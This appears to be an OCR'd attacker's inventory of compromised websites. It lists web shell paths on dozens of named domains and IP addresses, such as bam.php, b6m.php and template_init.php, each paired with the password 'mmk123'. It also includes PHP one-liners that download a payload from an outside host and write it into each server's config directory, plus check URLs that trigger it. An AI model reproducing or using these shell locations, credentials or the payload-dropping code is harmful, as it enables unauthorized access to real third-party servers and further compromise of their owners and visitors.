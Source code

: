 
http://8.138.18.52/template/template_init.php |mmk123 
/www/wwwroot/8.138.18.52/rewrite/
代码更新：0608 ✅
http://8.138.18.52/rewrite/httpd.php
<?php file_put_contents("/www/wwwroot/8.138.18.52/config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://8.138.18.52/config/httpd.php?d=up

http://120.79.179.113/template/template_init.php |mmk123 
代码更新：0608 ✅
http://120.79.179.113/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://120.79.179.113/config/httpd.php?d=up


http://43.138.246.227/template/template_init.php |mmk123 
代码更新：0608 ✅
http://43.138.246.227/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://43.138.246.227/config/httpd.php?d=up

http://m21.coin14.top/template/template_init.php  big |mmm |  39.101.172.203  
http://zjnqxj.com/upload/attached/20200624/bam.php |mmk123 |  211.149.164.178
http://yhzheyang.com/e/source/functions.php |mmk123 |  211.149.164.178
http://yhboye.com/upload/attached/20191122/bam.php |mmk123 |  211.149.164.178
http://xjjdhm.com/upload/file/bam.php |mmk123 |  211.149.164.178
http://wlsisheng.com/e/script/m/photoswipe/bam.php |mmk123 |  211.149.164.178
http://tzzhcb.com/e/images/icon/bam1.php |mmk123 |  211.149.164.178
http://tzyttfsb.com/e/editor/plugins/file_manager/images/bam1.php |mmk123 |  211.149.164.178
http://tzyjtz.com/e/script/photoswipe/bam1.php |mmk123 |  211.149.164.178
http://tzxitong.com/e/editor/plugins/image/images/bam1.php |mmk123 |  211.149.164.178
http://tzsyfzzx.com/aspnet_client/system_web/4_0_30319/bam1.php |mmk123 |  211.149.164.178
http://tzrongfang.com/e/editor/plugins/image/images/bam1.php |mmk123 |  211.149.164.178
http://tzrfcc.com/e/editor/plugins/image/images/bam1.php |mmk123 |  211.149.164.178
http://tzmfmj.com/e/editor/plugins/file_manager/images/folder/bm.php |mmk123 |  211.149.164.178
http://tzmaijie.com/e/ckeditor/plugins/clipboard/dialogs/bm.php |mmk123 |  211.149.164.178
http://tzlymjg.com/e/editor/plugins/image/images/66.php |mmk123 |  211.149.164.178
http://tzlxdp.com/e/ckeditor/images/bm.php |mmk123 |  211.149.164.178
http://tzlongfute.com/e/ver.php |mmk123 |  211.149.164.178
http://tzlhhj.com/upload/attached/20200316/bm.php |mmk123 |  211.149.164.178
http://tzhylf.com/upload/attached/20191107/bm.php |mmk123 |  211.149.164.178
http://tzhc1688.com/e/editor/php/JSON.php |mmk123 |  211.149.164.178
http://tzdssj.com/e/images/icon/b62m.php |mmk123 |  211.149.164.178
http://tzcdmj.com/upload/attached/20191106/b62m.php |mmk123 |  211.149.164.178
http://rj-yh.com/upload/attached/20210402/gss.php |mmk123 |  211.149.164.178
http://pcoxy.com/e/images/login/b6m.php |mmk123 |  211.149.164.178
http://lhyfpx.com/e/editor/plugins/image/images/b6m.php |mmk123 |  211.149.164.178
http://lccltt.com/upload/b6m.php |mmk123 |  211.149.164.178
http://dosejd.com/e/highslide/graphics/outlines/b6m.php |mmk123 |  211.149.164.178
http://cy-zdh.com/upload/attached/20200419/b6m.php |mmk123 |  211.149.164.178
http://cy-zdh.com/e/assets/bootstrap/js/b6m.php |mmk123 |  211.149.164.178
http://cndysm.com/upload/m1.php |mmk123 |base64_send | 211.149.164.178
http://cheshi2.tzynwl.com/template/template_init.php |mmk123 |  211.149.164.178
